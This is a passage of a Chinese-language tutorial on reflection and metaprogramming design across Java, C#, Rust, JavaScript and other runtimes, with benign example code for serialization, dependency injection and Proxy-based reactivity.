# 2.7 反射元编程核心设计

> 📍 **本篇位置**：第 2 卷 · 运行时模型 · 第 7 篇
> 🎯 **核心矛盾**：**编译期的"已知"vs 运行期的"未知"** —— 如何让一个在写代码时"还不存在的类型"，在程序跑起来之后依然能被**读、改、造、调**？
> 🧭 **设计灵魂**：一切反射/元编程，本质都是 **"把语言自己变成语言的数据"** ——让类型系统成为运行时的一等公民（First-class Types）
> 🌐 **跨语言覆盖**：Java(Class + Method + MethodHandle) · C#(Type + Reflection.Emit) · C++(RTTI + 模板元) · Go(reflect 双指针) · Python(`__class__` + `__dict__` + MetaClass) · JavaScript(Proxy + Reflect) · Rust(TypeId + derive + 过程宏) · Swift(Mirror)
> 🔗 **延伸阅读**：← [06.JIT与运行时优化](./06.JIT与运行时优化.md) · → [08.异常机制核心设计](./08.异常机制核心设计.md) · → [05.字节码虚拟机执行](./05.字节码虚拟机执行.md)

> 📢 **语言无关声明**
> 本章讨论的是**所有现代语言运行时共通的"元数据 → 自省 → 元编程"模型**——它对以下语言一视同仁：
>
> - **Java/JVM 系**（Java/Kotlin/Scala/Groovy）：`java.lang.reflect` + MethodHandle + ByteBuddy
> - **CLR 系**（C#/F#/VB.NET）：`System.Type` + Reflection.Emit + Source Generators
> - **Python**：`__class__`/`__dict__`/`getattr`/MetaClass/Descriptor 协议
> - **JavaScript/TypeScript**：Proxy/Reflect/`Object.getOwnPropertyDescriptor`
> - **Go**：`reflect.Type`/`reflect.Value`（`(type, data)` 双指针）
> - **C / C++**：**几乎没有运行时反射**（仅 RTTI `typeid`/`dynamic_cast`）；靠模板元 + C++26 P2996 静态反射 + Boost.PFR
> - **Rust**：`std::any::TypeId` + `derive` 宏 + 过程宏（**编译期反射为主**）
> - **Swift**：`Mirror` API（轻量运行时反射） + 编译期协议
>
> 后面所有"元数据 / 自省 / 拦截 / 代码生成"概念——**只要语言运行时存在"某种形式的类型信息可被代码访问"**（哪怕只是编译期可见），结论都适用。**反射强弱不是技术问题，是\"把元数据带到运行时\"这一设计取舍**。差异之处会用"📌 跨语言差异"块单独标注。



---

#### 目录介绍
- [1.案例引入](#1案例引入)
  - [1.1 通用 JSON 序列化场景](#11-通用-json-序列化场景)
  - [1.2 没有反射的代价](#12-没有反射的代价)
  - [1.3 有了反射的价值](#13-有了反射的价值)
  - [1.4 引出核心矛盾](#14-引出核心矛盾)
  - [1.5 通用三问](#15-通用三问跨语言读者必须先想清楚的三件事)
- [2.反射设计哲学](#2反射设计哲学)
  - [2.0 反射的通用必要性](#20-反射的通用必要性任何语言都绕不开)
  - [2.1 核心设计原则](#21-核心设计原则)
  - [2.2 反射模型演进](#22-反射模型演进)
  - [2.3 静态反射模型](#23-静态反射模型)
  - [2.4 动态反射模型](#24-动态反射模型)
  - [2.5 拦截式反射模型](#25-拦截式反射模型)
  - [2.6 模型决策树](#26-模型决策树)
- [3.元数据机制](#3元数据机制)
  - [3.1 元数据三大来源](#31-元数据三大来源)
  - [3.2 反射调用三段式](#32-反射调用三段式)
  - [3.3 反射性能瓶颈深度剖析](#33-反射性能瓶颈深度剖析)
  - [3.4 注解的元数据本质](#34-注解的元数据本质)
- [4.反射安全与权限](#4反射安全与权限)
  - [4.0 反射安全的通用模型](#40-反射安全的通用模型不限-java)
  - [4.1 setAccessible 的代价](#41-setaccessible-的代价)
  - [4.2 模块系统的反射拦截](#42-模块系统的反射拦截)
  - [4.3 反序列化漏洞案例](#43-反序列化漏洞案例)
  - [4.4 防护手段全景](#44-防护手段全景)
- [5.元编程：让代码生成代码](#5元编程让代码生成代码)
  - [5.1 三种元编程风格](#51-三种元编程风格)
  - [5.2 运行时元编程：动态代理](#52-运行时元编程动态代理)
  - [5.3 编译期元编程：模板与 const fn](#53-编译期元编程模板与-const-fn)
  - [5.4 宏系统：把语法树当值](#54-宏系统把语法树当值)
- [6.性能优化机制](#6性能优化机制)
  - [6.1 反射缓存](#61-反射缓存)
  - [6.2 MethodHandle 加速](#62-methodhandle-加速)
  - [6.3 字节码生成：ASM 与 ByteBuddy](#63-字节码生成asm-与-bytebuddy)
  - [6.4 编译期生成：serde 思路](#64-编译期生成serde-思路)
- [7.跨语言反射对比](#7跨语言反射对比)
  - [7.1 Java：Class + Method + Field](#71-javaclass--method--field)
  - [7.2 C#：Type + Reflection.Emit](#72-ctype--reflectionemit)
  - [7.3 C++：RTTI + 模板元编程](#73-cr rtti--模板元编程)
  - [7.4 Go：reflect 的双指针结构](#74-goreflect-的双指针结构)
  - [7.5 Python：一切皆对象](#75-python一切皆对象)
  - [7.6 JavaScript：Proxy 与 Reflect](#76-javascriptproxy-与-reflect)
  - [7.7 横向对比总表](#77-横向对比总表)
- [8.经典陷阱与反模式](#8经典陷阱与反模式)
  - [8.1 性能陷阱](#81-性能陷阱)
  - [8.2 安全陷阱](#82-安全陷阱)
  - [8.3 泛型擦除陷阱](#83-泛型擦除陷阱)
  - [8.4 ClassLoader 陷阱](#84-classloader-陷阱)
  - [8.5 跨语言反射陷阱速查表](#85-跨语言反射陷阱速查表)
- [9.经典案例串讲](#9经典案例串讲)
  - [9.1 案例背景：Spring Boot 启动 3 分钟之谜](#91-案例背景spring-boot-启动-3-分钟之谜)
  - [9.2 阶段一：Bean 扫描 — 静态反射读元数据](#92-阶段一bean-扫描--静态反射读元数据)
  - [9.3 阶段二：依赖注入 — 动态反射改字段](#93-阶段二依赖注入--动态反射改字段)
  - [9.4 阶段三：AOP 代理 — 拦截式反射造类](#94-阶段三aop-代理--拦截式反射造类)
  - [9.5 阶段四：从反射到字节码生成的性能跃迁](#95-阶段四从反射到字节码生成的性能跃迁)
  - [9.6 案例知识点回归](#96-案例知识点回归)
- [10.一句话总结](#10一句话总结)

---

## 1.案例引入

### 1.1 通用 JSON 序列化场景

**场景设定**：你正在为公司搭建一套微服务框架，需要写一个 **通用的 JSON 序列化器**——业务方传进来任何一个对象（`User`、`Order`、`Product`、未来还可能有 `Coupon`、`Address`...），它都能输出对应的 JSON 字符串。这听起来再普通不过的需求，背后却埋着所有反射/元编程的根本问题。

```java
// 业务方期望的调用方式
User u = new User("Tom", 18);
Order o = new Order(123, 99.9);

String json1 = JsonUtil.toJson(u);  // {"name":"Tom","age":18}
String json2 = JsonUtil.toJson(o);  // {"id":123,"price":99.9}
```

注意业务方的姿态——他们**只关心传入和返回**，根本不想为每个类型写一个专属序列化器。但作为框架作者，你面对的是一个根本性的难题：**`toJson` 这个方法在编写时，根本不知道未来会传进来什么类型**。`User` 类可能在三个月后才被业务方写出来，你怎么提前为它写代码？

这个看似简单的需求，触发了 **3 个真实工程问题**：

- 框架作者不可能为业务方未来要写的所有类，事先编写好序列化代码
- 即使写了，业务方每加一个新字段，框架就得跟着发版
- 配置文件、HTTP 请求体、数据库行——这些"运行时才知道结构"的东西如何反序列化回对象？

这三个问题的答案，正是反射的存在意义。

### 1.2 没有反射的代价

我们先看一种**完全不用反射**的写法，体会一下"代价"：

```java
public class JsonUtil {
    // 每个类都得写一个专属方法
    public static String userToJson(User u) {
        return "{\"name\":\"" + u.getName() + "\",\"age\":" + u.getAge() + "}";
    }
    public static String orderToJson(Order o) {
        return "{\"id\":" + o.getId() + ",\"price\":" + o.getPrice() + "}";
    }
    public static String productToJson(Product p) { /* 又一遍 */ }
    public static String couponToJson(Coupon c)   { /* 再一遍 */ }
    // ... 业务方每加一个类，框架都要加一个方法
}
```

**这种写法 CPU 最喜欢**——每个方法都是直接的字段访问 + 字符串拼接，没有任何运行时查找开销，性能能拉满。但它埋了**四颗大雷**：

- **雷一：组合爆炸**。业务方有 100 个类，框架要写 100 个 `xxxToJson`，且每加一个字段都要改对应方法
- **雷二：发版地狱**。框架与业务紧耦合，业务一改字段，框架必须跟着升版本
- **雷三：第三方失效**。开源框架根本不知道你公司有什么类，更别说为它们写代码了
- **雷四：动态场景失败**。从数据库查出一行数据，字段名只在运行时才知道——根本无法用静态方法处理

更要命的是，这种"代码生成代码的代码"的需求**无处不在**：

```java
// Spring：要为业务方未来写的 Controller 自动生成 RESTful 接口
// Hibernate：要把表的列自动映射到类的字段
// JUnit：要找到所有带 @Test 的方法并执行
// Jackson：要给任何对象做 JSON 序列化
// gRPC：要根据 .proto 生成存根并能在运行时调用
```

如果都靠"为每种情况手写一份"，整个软件工程就没法做了。

**小结**（基于上面四颗雷）：**没有反射的世界，是一个静态封闭的世界**——所有类型必须在编译期被代码"显式知道"。反射的存在，就是为了打破这个封闭——让"通用代码处理未知类型"成为可能。

### 1.3 有了反射的价值

再看**有反射**的写法：

```java
public class JsonUtil {
    public static String toJson(Object obj) throws Exception {
        Class<?> c = obj.getClass();                       // ① 运行时拿到类型
        StringBuilder sb = new StringBuilder("{");
        Field[] fs = c.getDeclaredFields();                // ② 拿到所有字段
        for (int i = 0; i < fs.length; i++) {
            fs[i].setAccessible(true);
            if (i > 0) sb.append(",");
            sb.append("\"").append(fs[i].getName()).append("\":")
              .append(formatValue(fs[i].get(obj)));        // ③ 读字段值
        }
        return sb.append("}").toString();
    }
}
```

短短 10 行，搞定了**任何类**的序列化。再看下一个需求——业务方说"我加了个 `email` 字段"：

```java
class User {
    String name;
    int age;
    String email;     // 新加的字段
}
// 框架代码：完全不需要改，自动支持
JsonUtil.toJson(new User("Tom", 18, "tom@x.com"));
// → {"name":"Tom","age":18,"email":"tom@x.com"}
```

这就是反射的真正价值——**框架代码和业务代码彻底解耦了**。框架在编写时永远不知道业务类长什么样，但运行时它能自己搞清楚。

让我们看看反射在四个真实场景里的统治力：

| 场景 | 典型代表 | 反射在做什么 | 没有反射会怎样 |
|---|---|---|---|
| **序列化/反序列化** | Jackson / Gson / protobuf-java | 自动遍历字段、按名字读写 | 每个类要手写 codec |
| **依赖注入** | Spring / Dagger / Guice | 扫描 `@Autowired`，运行时填充 | 每处都要 `new` 并手动连线 |
| **ORM** | Hibernate / MyBatis / GORM | 把表字段和类字段自动对映 | DAO 层全靠人肉拼 SQL |
| **测试框架** | JUnit / TestNG / pytest | 找到带 `@Test` 的方法并调用 | 测试类必须实现固定接口 |
| **动态代理/AOP** | Spring AOP / gRPC Stub | 运行时凭空生成实现类 | 切面逻辑要散落在每个方法 |
| **配置驱动** | YAML/JSON 配置自动绑定到类 | 字段名 → 类字段的运行时绑定 | 每个配置项手动 `getString` |

**小结**（基于上面这次"加字段不用改框架"的演练）：反射的本质不是"让代码能查询自己"，而是**让框架代码能在不知道业务代码的情况下，依然正确地处理它**——这是过去 30 年所有"框架时代"软件工程的根基。

### 1.4 引出核心矛盾

把 1.2 和 1.3 放在一起看，反射的核心矛盾就赤裸裸地浮出来了：

| 维度 | 无反射（1.2） | 有反射（1.3） |
|------|---------------|---------------|
| **代码量** | O(N×M)，N 个类 × M 个操作 | O(M) 个通用方法 |
| **演化成本** | 业务改字段，框架跟着改 | 业务改字段，框架零感知 |
| **CPU 开销** | 直接字段访问，几条指令 | 查表 + 装箱 + 分派，慢 20-60 倍 |
| **类型安全** | 编译期完全检查 | 运行时才发现错误 |
| **代码可读性** | 一眼看穿 | 隐式 + 魔法 |

看得出，这不是"哪种更好"的问题——**它们各自最优的维度恰好相反**。这就是反射设计的根本矛盾：



**接下来全文要回答的就是这一个问题**：从 C++ RTTI 到 Java Class，从 Python `__dict__` 到 JS Proxy，从 MethodHandle 到 ByteBuddy——现代编程语言用了哪些设计，把"动态性"和"性能"这对宿敌捏到一起？

### 1.5 通用三问（跨语言读者必须先想清楚的三件事）

无论你写 Java/C#/Python/JS/Go/C++/Rust，回到最底层，所有语言的"反射/元编程"都在回答同一组问题：

**通用三问**：

1. **元数据"被带到运行时"了吗？带了多少？**
   - 全带：Java/C#/Python/JS（类名、字段、方法、注解全在）
   - 部分带：Go（`_type` + 方法表，但无注解/泛型擦除较彻底）
   - 几乎不带：C/C++（仅 vtable + RTTI），Rust（仅 `TypeId`）
   - **"反射强弱 = 编译器愿意把多少元数据写到二进制里"** —— 这是设计取舍，非技术限制
2. **元数据如何被访问？查询式 vs 拦截式？**
   - 查询式：`getField`/`getMethod`——程序员主动问对象（Java/C#/Go/Python）
   - 拦截式：`Proxy`/`__getattr__`/虚函数——对象主动接管所有访问（JS/Python/Java JDK Proxy）
   - **拦截式是反射哲学的一次升级**：从"反射数据"到"反射行为"
3. **代码生成发生在何时？编译期 vs 运行期？**
   - 运行期生成：Java ByteBuddy/CGLIB、C# Reflection.Emit、Python `exec`——灵活但需 JIT 兜底
   - 编译期生成：Rust `derive`、C# Source Generators、Java APT/Lombok、C++ 模板/P2996——零运行时开销
   - **业界一致趋势**：能在编译期解决的绝不放运行期（serde 比 Jackson 快 5 倍就是例证）

**📌 给 C/C++/Go/Rust 程序员的特别提示**：

虽然你们的语言"运行时反射很弱"，但**通用三问对你们同样成立**——只是答案不同：

- **第 1 问**：你们选择**不把元数据带到运行时**（性能/二进制大小考量）
- **第 2 问**：你们用编译期手段（模板/泛型/derive）替代运行时查询
- **第 3 问**：你们一律选择**编译期生成**（C++ 模板实例化、Rust 单态化、Go `go:generate`）

把这三问刻在脑子里，下面所有内容都会变成"在三问框架内的具体技术选择"。



---

## 2.反射设计哲学

### 2.0 反射的通用必要性（任何语言都绕不开）

进入"反射模型"之前，先把一个**所有语言都成立**的结论说在前头：**只要语言要支持"通用框架/序列化/插件/配置驱动"，就必然要在编译器→运行时这条链路上至少留一道"类型可被代码访问"的口子**。区别只在**这道口子开多大、开在哪里**：

| 语言/运行时 | 元数据形式 | 元数据位置 | 谁能访问 | 强度 |
|---|---|---|---|---|
| **Java/Kotlin** | `Class<?>` + `Method`/`Field` 对象 | 方法区（持久化） | 任何代码 | ★★★★★ |
| **C#/.NET** | `Type` + `MemberInfo` | 程序集 metadata stream | 任何代码 | ★★★★★ |
| **Python** | `__class__`/`__dict__`/`__mro__` | 每个对象内部 | 任何代码 | ★★★★★ |
| **JavaScript** | 原型链 + Proxy 拦截 | 每个对象内部 | 任何代码 | ★★★★ |
| **Go** | `runtime._type` + `typelinks` 段 | 二进制 `.rodata` | `reflect` 包 | ★★★★ |
| **Swift** | `Mirror` + 协议见证表 | 二进制元数据段 | `Mirror` API | ★★★ |
| **Rust** | `TypeId`（仅类型相等性） | 编译期生成的常量 | `std::any` | ★ |
| **C++** | `type_info`（仅类型名 + 比较） | vtable 旁的 RTTI | `typeid`/`dynamic_cast` | ★ |
| **C** | **无** | N/A | N/A | ☆ |

**两条根本路线一图看清**：



**核心洞察**：

1. **"有没有反射" 不是问题——是"元数据生命周期到哪里"** 才是分水岭
2. **C/Rust 程序员说"我没有反射"——你错了**：你们的"反射"被消化在编译期了，叫"derive/模板/单态化"
3. **运行时反射 = 编译器把元数据写进二进制+运行时数据结构**——成本：内存/启动时间；收益：动态能力

后面章节讨论的所有"反射模型 / 元数据查找 / 性能优化"问题，本质都是在问——**这层元数据是值得留到运行时，还是编译期就消化掉**。

📌 **跨语言差异**：§2.3–§2.5 讨论的三种反射模型（静态/动态/拦截），各语言通常只选其中一两种为主：
- Java/C#：动态为主、拦截为辅
- JS：拦截为主、动态为辅
- Rust/C++：静态独大
- Go/Python：动态独大
- Swift：静态为主、Mirror 兜底

### 2.1 核心设计原则

回到第 1 章那个 JSON 序列化的案例，我们已经看到反射"为什么必要"。但反射这个工具如此强大，强大到危险——能读私有字段、能造任意类、能绕过类型系统。怎么才能让它**够用而不滥用**？这一节我们把工业界沉淀下来的反射设计经验拆开看。

**先看一段反例代码**——这是真实项目里曾经出现过的设计：

```java
// 一个"万能工具类"，看着很方便，实则是炸药桶
public class MagicUtil {
    public static Object call(Object obj, String method, Object... args) {
        Class<?> c = obj.getClass();
        for (Method m : c.getDeclaredMethods()) {           // 1. 暴力遍历
            if (m.getName().equals(method)) {
                m.setAccessible(true);                       // 2. 强行破除封装
                try { return m.invoke(obj, args); }          // 3. 不管类型对不对就调
                catch (Exception e) { return null; }         // 4. 静默吞掉异常
            }
        }
        return null;
    }
}

// 业务侧
MagicUtil.call(user, "setPassword", "123");   // 神秘失败时谁都查不到
```

这个工具上线半年内引发了**至少 4 类生产事故**：方法重载误中、参数类型不匹配静默失败、私有方法被外部调用、性能曲线尖刺无法定位。问题不在于"反射有罪"，而在于这个工具违背了反射设计的所有基本原则。

**从这个反例中能提炼出三条设计准则**：



- **元数据可寻原则**：上面的 `MagicUtil` 暴力 `for` 循环找方法是反模式。**好的反射 API 要让"按名字查"是 O(1) 或 O(log n) 的**——Java 的 `getMethod(name, paramTypes...)` 强制你提供参数类型来精准定位，正是这个原则的体现。
- **最小权限原则**：`setAccessible(true)` 这一行无差别地破除了所有封装。Java 9 的模块系统把它从"无脑可调用"变成"必须 `--add-opens`"，正是为了让开发者**显式宣告"我要破封装"**。
- **失败可观察原则**：反射调用失败的姿势千奇百怪——找不到方法、参数类型不匹配、被调方法抛异常、被调方法访问受限——**这些必须以不同的异常类型暴露出来**，而不是用一个 `catch(Exception)` 全部吞掉。

**小结**（基于反例与三条准则）：反射设计的灵魂不是"做一个万能查询器"，而是**主动地把动态能力收拢到可控的少数路径上**——元数据可寻原则保证查找的确定性，最小权限原则保证封装不被滥破，失败可观察原则保证错误能被定位。后续所有反射 API 与元编程技术都是这三条原则的具体落地。

### 2.2 反射模型演进

反射机制经历了从"类型只剩名字"到"类型成为一等公民"的漫长演进：



**演进动力**——从这条时间线能看到三股力量在拉扯：

- **从"知其名"到"用其能"**：早期 RTTI 只能告诉你类型名，后来反射能调方法、读字段、造对象，能力越来越完整
- **从"运行时反射"到"编译期反射"**：性能压力推动业界把反射前移——能在编译期解决的，绝不留到运行期
- **从"读元数据"到"拦截行为"**：Proxy 模型反过来——不是去查元数据，而是接管对象的所有访问，是反射哲学的一次范式转移

### 2.3 静态反射模型

**先看一段 Rust 代码**——这是当今静态反射最优雅的范本：

```rust
#[derive(Debug, Clone, Serialize, Deserialize)]
struct User {
    name: String,
    age: u32,
}

fn main() {
    let u = User { name: "Tom".into(), age: 18 };
    let s = serde_json::to_string(&u).unwrap();   // 编译期就生成好了序列化代码
    println!("{}", s);                            // {"name":"Tom","age":18}
}
```

注意这里发生了什么——`#[derive(Serialize)]` 这一行，让编译器在编译期**就为 `User` 这个具体类型生成了一份专属的序列化代码**。运行时根本不存在"反射查询"，只有直接的字段访问，性能等同于手写。

**静态反射的三大特征**：



- **能力发生在编译期**：所有"查字段、生成代码"的事在编译时完成
- **运行时零反射开销**：生成的代码看上去就像手写的一样
- **类型安全完整保留**：编译期就能发现类型错误，不会推到运行时

**适用场景**：性能敏感、类型在编译期已知的场景——`serde`、`bincode`、`prost`、Rust 大生态全靠它。

**小结**：静态反射的灵魂是**"把动态性付出的代价收回到编译期"**——你享受了"自动生成代码"的便利，但 CPU 跑的是直接代码。

### 2.4 动态反射模型

**先看一段 Java 代码**——动态反射的典型形态：

```java
public class DiContainer {
    Map<Class<?>, Object> singletons = new HashMap<>();

    public <T> T get(Class<T> type) throws Exception {
        if (singletons.containsKey(type)) return (T) singletons.get(type);

        // 找到任意一个公开构造器，递归注入它的参数
        Constructor<?> ctor = type.getDeclaredConstructors()[0];
        Class<?>[] paramTypes = ctor.getParameterTypes();
        Object[] args = new Object[paramTypes.length];
        for (int i = 0; i < paramTypes.length; i++) {
            args[i] = get(paramTypes[i]);          // 递归
        }
        Object instance = ctor.newInstance(args);
        singletons.put(type, instance);
        return (T) instance;
    }
}
```

这是一个迷你版的 Spring DI 容器——**它在写的时候根本不知道未来会有什么类**，但运行时能自动构造任意类型并填充依赖。这是动态反射的核心威力。

**动态反射的三大特征**：



- **能力发生在运行时**：所有元数据查询和调用都是运行时进行
- **付出反射性能代价**：查表、装箱、分派一个不少
- **支持完全未知的类型**：连类型都可以在运行时通过 `Class.forName(name)` 拿到

**适用场景**：通用框架——序列化、ORM、DI、动态代理。它的本质是**用性能换灵活**。

**小结**：动态反射的灵魂是**"把类型系统当成可查询的数据库"**——你付的是运行时查询的钱，买的是"任何类型都能处理"的能力。

### 2.5 拦截式反射模型

这是 ES6 后兴起的第三种范式——**不查元数据，而是接管所有访问**：

```javascript
// Vue 3 响应式系统的核心思路
function reactive(target) {
    return new Proxy(target, {
        get(obj, prop) {
            track(obj, prop);                     // 收集依赖
            return Reflect.get(obj, prop);
        },
        set(obj, prop, value) {
            const old = obj[prop];
            const ok = Reflect.set(obj, prop, value);
            if (old !== value) trigger(obj, prop); // 触发更新
            return ok;
        }
    });
}

const state = reactive({ count: 0 });
state.count++;   // 自动触发依赖更新
```

注意这里发生了什么——`Proxy` 没有去查 `state` 有多少字段、字段名叫什么，而是**让所有对 `state` 的访问都先经过拦截器**。这是一种"反向反射"——**不是程序员去问对象，而是对象在被问之前就被改造了**。

**拦截式反射的三大特征**：



- **不预先查元数据**：拦截器只在访问发生的瞬间被触发
- **能拦截"未来才会出现的属性"**：连 `obj.foo` 这种不存在的属性也能拦
- **天然适合 AOP**：日志、权限、缓存、依赖追踪都是它的应用场景

**适用场景**：响应式 UI（Vue 3、SolidJS）、ORM 的代理对象、Mock 框架（Sinon、jest.fn）、AOP（Spring AOP 的 JDK Proxy）。

**小结**：拦截式反射的灵魂是**"对象不再是被动被查询的数据，而是主动响应访问的活体"**——它从"反射元数据"升级到了"反射行为"，是元编程范式的一次飞跃。

### 2.6 模型决策树

三种模型并非互斥，工业实践中往往混用。下面这棵决策树能帮你在不同场景下做选择：

